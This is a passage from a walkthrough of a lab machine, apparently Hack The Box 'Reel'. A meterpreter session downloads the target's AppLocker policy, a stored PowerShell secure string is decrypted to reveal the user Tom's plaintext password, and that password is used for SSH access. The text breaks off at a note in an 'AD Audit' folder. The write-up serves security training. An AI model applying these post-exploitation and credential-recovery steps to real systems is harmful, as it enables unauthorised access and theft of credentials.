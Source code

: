 Because we know there are AppLocker policies in place from the document found earlier we should also check those:

```a
c:\Users\nico\Downloads>powershell Get-ApplockerPolicy -Effective -xml > applocker.xml
c:\Users\nico\Downloads>^C
Terminate channel 2? [y/N]  y
meterpreter > download applocker.xml
[*] Downloading: applocker.xml -> applocker.xml
[*] Downloaded 135.38 KiB of 135.38 KiB (100.0%): applocker.xml -> applocker.xml
[*] download   : applocker.xml -> applocker.xml
```

The configuration is pretty big and contains a whitelist of programs that are allowed to be executed, they can't be simply replaced with a malicious version because the hash of the executables is checked as well.

Anyway back to the credentials we can see them by creating a PSCredential object with them:

```powershell
PS C:\users\nico\desktop> $password = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | ConvertTo-SecureString
PS C:\users\nico\desktop> $creds = New-Object System.Management.Automation.PSCredential("HTB\Tom", $password)
PS C:\users\nico\desktop> $creds.GetNetworkCredential() | fl *

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB

PS C:\users\nico\desktop>
```

These credentials can be used to access the system as Tom from SSH:

```a
┌─[baud@parrot]─[~/reel]
└──╼ $ssh tom@10.10.10.77
The authenticity of host '10.10.10.77 (10.10.10.77)' can't be established.
ECDSA key fingerprint is SHA256:jffiqnVqz/MrcDasdsjISFIcN/xtlDj1C76Yu1mDQVY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.77' (ECDSA) to the list of known hosts.
tom@10.10.10.77's password:

Microsoft Windows [Version 6.3.9600]                   
(c) 2013 Microsoft Corporation. All rights reserved.                                  

tom@REEL C:\Users\tom>  
```

Tom's desktop has an interesting folder called AD Audit, which then has a note:
